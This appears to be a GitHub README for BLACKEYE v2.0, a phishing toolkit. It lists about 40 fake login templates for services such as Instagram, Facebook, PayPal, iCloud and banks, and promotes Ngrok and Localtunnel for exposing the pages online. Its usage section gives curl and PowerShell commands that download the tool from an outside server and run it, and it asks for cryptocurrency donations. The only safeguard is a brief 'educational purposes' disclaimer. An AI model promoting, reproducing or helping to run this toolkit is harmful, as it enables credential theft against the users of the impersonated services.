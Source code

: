 ## BLACKEYE v2.0 (Big update, in a month 23:08:2024 | New: bank template, and update afterwards, Add localhost, and more)
##### The tool is completely free now 

-----------------------------------------------------------------------------------------------------------------------------
![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bkev3.png)

12:01:2024 Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/scr2.png)

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bgscr.png)

### UPDATES :
##### UPDATES_TMP websites :          

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom         
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok      
          
##### Add:  Localtunnel
##### Update: Ngrok 
###   Contact me on Instagram : @EricksonHolding or on responded.erickson.elite

-----------------------------------------------------------------------------------------------------------------------------
### Coded/Upgraded by: @EricksonAtHome (https://github.com/EricksonAtHome/blackeye)

#### Credits (Copyright)
#### Phishing Pages generated by An0nUD4Y (https://github.com/An0nUD4Y):

#### Description
BLACKEYE is an upgrade from original ShellPhish Tool (https://shellphish.net) by thelinuxchoice under GNU LICENSE. It is the most complete Phishing Tool,  with 32 templates +1 customizable

## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

### Usage:
```
curl -O http://dsvr.blackeye.cloud/alld/blackeye.zip
cd blackeye
bash blackeye.sh
```
### Usage PowerShell:
```
Invoke-WebRequest -Uri http://dsvr.blackeye.cloud/alld/blackeye.zip -OutFile blackeye.zip
cd blackeye
bash blackeye.sh
```

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/hiws.png)

12:01:2024 Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/scr22.png)

### Donate! @EricksonHolding
Donate And Support:
-----------------------------------------------------------------------------------------------------------------------------
BTC: 3EUgv8me3wDLLQ5rPRGKfdkkoXD4fozLHu
-----------------------------------------------------------------------------------------------------------------------------
LTC: MPgfYyVWqnUHFPhFRjETAAgfMHgKdaEFP1
-----------------------------------------------------------------------------------------------------------------------------
